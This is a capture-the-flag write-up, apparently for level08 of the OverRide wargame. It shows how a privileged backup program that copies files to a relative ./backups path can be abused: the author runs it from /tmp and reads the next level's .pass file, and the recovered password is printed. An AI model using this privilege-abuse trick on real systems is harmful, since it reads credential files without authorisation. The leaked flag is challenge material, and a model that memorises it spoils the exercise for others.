 # level08

The programs takes a file as parameter.

By looking at the code, we can see that it copy the file passed in params to `./backups/argv[1]`. If the file already exists, an error is thrown.

The goal here is to open the `.pass` of the level09, but obviously we haven't the rights to write in the current directory:

```bash
level08@OverRide:~$ ./level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
level08@OverRide:~$ mkdir -p backups/home/users/level09
mkdir: cannot create directory `backups/home': Permission denied
```

We move in `/tmp` and create the complete patht to avoid any errors:

```bash
level08@OverRide:/tmp$ ~/level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
level08@OverRide:/tmp$ mkdir -p backups/home/users/level09
level08@OverRide:/tmp$ ~/level08 /home/users/level09/.pass
level08@OverRide:/tmp$ cat ./backups//home/users/level09/.pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```
